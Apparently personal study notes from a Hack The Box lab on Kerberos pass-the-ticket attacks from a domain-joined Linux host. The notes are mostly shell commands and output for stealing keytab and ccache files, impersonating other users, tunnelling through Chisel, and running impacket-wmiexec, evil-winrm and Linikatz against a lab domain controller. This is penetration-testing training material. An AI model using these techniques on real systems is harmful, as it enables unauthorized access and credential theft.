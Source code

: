 ## Identifying Linux and Active Directory Integration

We can identify if the Linux machine is domain joined using [realm](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/windows_integration_guide/cmd-realmd), a tool used to manage system enrollment in a domain and set which domain users or groups are allowed to access the local system resources.

#### realm - Check If Linux Machine is Domain Joined

```shell-session
david@inlanefreight.htb@linux01:~$ realm list
```
#### PS - Check if Linux Machine is Domain Joined

  PS - Check if Linux Machine is Domain Joined

```shell-session
david@inlanefreight.htb@linux01:~$ ps -ef | grep -i "winbind\|sssd"
```
## Finding Keytab Files

#### Using Find to Search for Files with Keytab in the Name

  Using Find to Search for Files with Keytab in the Name

```shell-session
david@inlanefreight.htb@linux01:~$ find / -name *keytab* -ls 2>/dev/null
```
#### Identifying Keytab Files in Cronjobs

  Identifying Keytab Files in Cronjobs

```shell-session
carlos@inlanefreight.htb@linux01:~$ crontab -l
```
## Finding ccache Files

#### Reviewing Environment Variables for ccache Files.

```shell-session
david@inlanefreight.htb@linux01:~$ env | grep -i krb5
```
#### Searching for ccache Files in /tmp

```shell-session
david@inlanefreight.htb@linux01:~$ ls -la /tmp
```
## Abusing KeyTab/CCache Files

#### Listing keytab File Information
```shell-session
david@inlanefreight.htb@linux01:~$ klist -k -t 
```
#### Impersonating a User with a keytab

  Impersonating a User with a keytab

```shell-session
david@inlanefreight.htb@linux01:~$ klist 

Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: david@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:02:11  10/07/22 03:02:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:02:11
david@inlanefreight.htb@linux01:~$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
david@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:16:11  10/07/22 03:16:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:16:11
```
#### Connecting to SMB Share as Carlos

  Connecting to SMB Share as Carlos

```shell-session
david@inlanefreight.htb@linux01:~$ smbclient //dc01/carlos -k -c ls
```
#### Extracting Keytab Hashes with KeyTabExtract

  Extracting Keytab Hashes with KeyTabExtract

```shell-session
david@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```
#### Importing the ccache File into our Current Session

  Importing the ccache File into our Current Session

```shell-session
root@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
root@linux01:~# cp /tmp/krb5cc_647401106_I8I133 .
root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_I8I133
root@linux01:~# klist
Ticket cache: FILE:/root/krb5cc_647401106_I8I133
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 13:25:01  10/07/2022 23:25:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 13:25:01
root@linux01:~# smbclient //dc01/C$ -k -c ls -no-pass
```

## Using Linux Attack Tools with Kerberos 

### Chisel
#### Host File Modified

```shell-session
Tachipy@htb[/htb]$ cat /etc/hosts

# Host addresses

172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```

We need to modify our proxychains configuration file to use socks5 and port 1080.

#### Proxychains Configuration File

  Proxychains Configuration File

```shell-session
Tachipy@htb[/htb]$ cat /etc/proxychains.conf

<SNIP>

[ProxyList]
socks5 127.0.0.1 1080
```
.

#### Download Chisel to our Attack Host

  Download Chisel to our Attack Host

```shell-session
Tachipy@htb[/htb]$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
Tachipy@htb[/htb]$ gzip -d chisel_1.7.7_linux_amd64.gz
Tachipy@htb[/htb]$ mv chisel_* chisel && chmod +x ./chisel
Tachipy@htb[/htb]$ sudo ./chisel server --reverse 

2022/10/10 07:26:15 server: Reverse tunneling enabled
2022/10/10 07:26:15 server: Fingerprint 58EulHjQXAOsBRpxk232323sdLHd0r3r2nrdVYoYeVM=
2022/10/10 07:26:15 server: Listening on http://0.0.0.0:8080
```
#### Connect to MS01 with xfreerdp

  Connect to MS01 with xfreerdp

```shell-session
Tachipy@htb[/htb]$ xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

#### Execute chisel from MS01

  Execute chisel from MS01

```cmd-session
C:\htb> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks

2022/10/10 06:34:19 client: Connecting to ws://10.10.14.33:8080
2022/10/10 06:34:20 client: Connected (Latency 125.6177ms)
```
#### Setting the KRB5CCNAME Environment Variable



```shell-session
Tachipy@htb[/htb]$ export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```
### Impacket

#### Using Impacket with proxychains and Kerberos Authentication

```shell-session
Tachipy@htb[/htb]$ proxychains impacket-wmiexec dc01 -k
```
### Evil-Winrm

To use [evil-winrm](https://github.com/Hackplayers/evil-winrm) with Kerberos, we need to install the Kerberos package used for network authentication. For some Linux like Debian-based (Parrot, Kali, etc.), it is called `krb5-user`. While installing, we'll get a prompt for the Kerberos realm. Use the domain name: `INLANEFREIGHT.HTB`, and the KDC is the `DC01`.

#### Installing Kerberos Authentication Package

  Installing Kerberos Authentication Package

```shell-session
Tachipy@htb[/htb]$ sudo apt-get install krb5-user -y
```
In case the package `krb5-user` is already installed, we need to change the configuration file `/etc/krb5.conf` to include the following values:
#### Using Evil-WinRM with Kerberos

  Using Evil-WinRM with Kerberos

```shell-session
Tachipy@htb[/htb]$ proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

## Misc
#### Impacket Ticket Converter

```shell-session
Tachipy@htb[/htb]$ impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```
#### Linikatz Download and Execution

  Linikatz Download and Execution

```shell-session
Tachipy@htb[/htb]$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
Tachipy@htb[/htb]$ /opt/linikatz.sh
```